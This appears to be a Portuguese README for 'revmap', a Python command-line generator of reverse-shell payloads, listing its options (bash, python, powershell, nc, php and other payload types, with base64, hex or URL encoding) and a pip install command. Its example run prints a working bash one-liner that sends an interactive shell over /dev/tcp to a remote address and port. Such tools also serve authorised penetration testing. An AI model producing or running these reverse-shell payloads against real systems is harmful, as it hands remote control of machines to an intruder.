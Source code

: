 ```yaml
  --ip IP                Insert ip
  --port PORTA           Insert port
  --payload {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang} Insert payload
  --encode {base64,hex,urlencode} Insert encode
```

# Instalação

revmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install revmap
```

# Executando revmap

```console
revmap --ip 192.168.4.160 --port 8080 --payload bash

 ___ ___ _ _ _____ ___ ___ 
|  _| -_| | |     | .'| . |
|_| |___|\_/|_|_|_|__,|  _|
                      |_|  
        v0.0.1 - @joaoviictorti 
                                               

bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>